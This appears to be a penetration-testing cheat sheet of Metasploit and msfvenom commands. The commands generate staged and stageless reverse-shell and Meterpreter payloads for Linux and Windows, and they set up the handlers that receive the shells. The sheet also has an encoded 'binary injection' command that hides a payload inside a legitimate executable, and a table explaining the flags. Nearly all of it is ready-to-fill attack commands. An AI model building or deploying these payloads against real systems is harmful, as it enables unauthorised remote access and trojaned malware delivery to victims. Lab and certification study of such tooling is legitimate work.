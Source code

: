 # Payloads

## Generate Payload from Msfconsole (NO Msfvenom)
```bash
use payload/[PAYLOAD]/[TO]/[USE]
```
```bash
generate -f exe -o /home/kali/Desktop/[FILE.EXE]
```
![](../../zzAttachments/Pasted%20image%2020250721111158.png)


---
---


## Msfvenom

## Linux
##### Staged reverse TCP
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf -o [NAME].elf
```
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf > [NAME].elf
```
```bash
use exploit/multi/handler
```
```bash
set payload linux/x86/meterpreter/reverse_tcp
```
##### Stageless reverse TCP
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf -o [NAME].elf
```
```bash
use exploit/multi/handler
```
```bash
set payload linux/x86/shell/reverse_tcp
```


---
---


## Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe -o [NAME].exe
```
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > [NAME].exe
```
```bash
use exploit/multi/handler
```
```bash
set payload windows/meterpreter/reverse_tcp
```

##### Stageless
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe -o [NAME].exe
```
```bash
use exploit/multi/handler
```
```bash
set payload windows/shell_reverse_tcp
```

##### Staged
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe -o [NAME].exe
```
```bash
use exploit/multi/handler
```
```bash
set payload windows/shell/reverse_tcp
```

##### Binary Injection
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe -e x86/shikata_ga_nai -i 3 -x "/[BINARY].exe" -o [NAME].exe
```

| Options | Description                             |
| ------- | --------------------------------------- |
| -p      | payload to use                          |
| -f      | format (exe, elf, sh)                   |
| -e      | encoder to use                          |
| -i      | number of interations for encoder to do |
| -x      | executable file to use as a template    |
| -o      | output executable name                  |
